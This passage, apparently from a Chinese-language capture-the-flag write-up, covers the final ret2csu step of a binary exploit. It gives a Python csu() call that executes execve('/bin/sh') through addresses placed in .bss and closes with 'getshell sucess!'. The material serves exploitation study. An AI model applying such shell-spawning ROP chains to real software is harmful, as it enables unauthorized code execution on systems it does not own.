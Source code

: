 - 最后回到`main`中

## 3rd csu

- 此时`bss_base`存储的是`execve`函数的地址，`bss_base + 8`存储的是`'/bin/sh\x00'`

```python
csu(0, 1, bss_base, 0, 0, bss_base + 8, 0) # bss_base: execve; bss_base + 8: '/bin/sh\0'
```

- 相当于执行的是`execve("/bin/sh\0")`

getshell sucess!


